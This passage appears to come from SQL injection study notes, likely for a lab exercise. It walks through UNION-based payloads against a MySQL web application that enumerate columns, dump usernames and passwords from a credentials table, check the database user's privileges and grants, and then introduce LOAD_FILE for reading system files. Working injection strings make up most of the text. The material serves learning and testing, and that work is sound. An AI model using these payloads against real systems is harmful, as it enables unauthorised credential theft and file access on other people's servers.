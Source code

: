 The last information that we need are the name of the columns.

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```

Now that we have all the information, we can start querying data.

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- 
```

#### Reading Files

There are two ways (`UNION SELECT` or `SELECT`) to check which rights our user has.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- 
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```

##### User Privileges

Now that we know our user, we need to know which privileges he has.

```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
```

When we have several users we can only show the privileges of the searched user.

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="larry"-- 
```

To check other privileges then the root user privilege we can use one of the following command.

```sql
SELECT sql_grants FROM information_schema.sql_show_grants
```

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
```

##### LOAD_FILE

If the OS user has enough privileges we can use the `LOAD_FILE()` function to read files from the system.
